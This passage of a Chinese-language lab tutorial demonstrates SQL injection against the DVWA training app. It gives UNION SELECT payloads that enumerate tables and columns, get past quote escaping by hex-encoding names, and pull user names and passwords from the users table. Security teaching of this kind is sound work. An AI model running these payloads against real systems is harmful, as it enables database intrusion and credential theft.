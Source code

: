 ```sql
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa' #&Submit=Submit
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 154803-1684374084197-43.png)

尝试使用上面的payload注入的时候没有拿到数据表的信息，反馈了一个错误，错误里面有个关键信息：**You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'dvwa\' #' at line 1**在数据库名字前面有一个转义符号`\`，这很显然是基于WAF的防御手段。

尝试转码来替换dvwa的字符：

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 161437-1684374084197-44.png)

上面将其转化位16进制再进行注入，得到以下结果：

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 162412-1684374084197-46.png)

这里通过字符转码获取到了数据表的信息，也可以直接使用**函数database()来进行注入**

**注意：使用16进制码注入的时候前面要加上0x。**

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 161621-1684374084197-45.png)

这里明显注入成功了，获取到了两张表**guestbook,users**

#### 获取数据表的字段

获取字段需要新的关键字column，利用此关键字来进行注入。

payload：

```sql
id=1 union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #&Submit=Submit
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 162216-1684374084197-47.png)

这里注入失败了，还是有转义符号在这里影响，尝试转码。

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 162711-1684374084197-48.png)

转码后进行注入：

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 162946-1684374084197-49.png)

这里获取到了信息：user_id,first_name,last_name,user,password,avatar,last_login,f等信息，很明显字段**user,password**是我们最关心的。

#### 获取字段信息，登陆账号

payload：

```sql
id=1 union select 1,concat_ws('',user,password) from users #&Submit=Submit
```
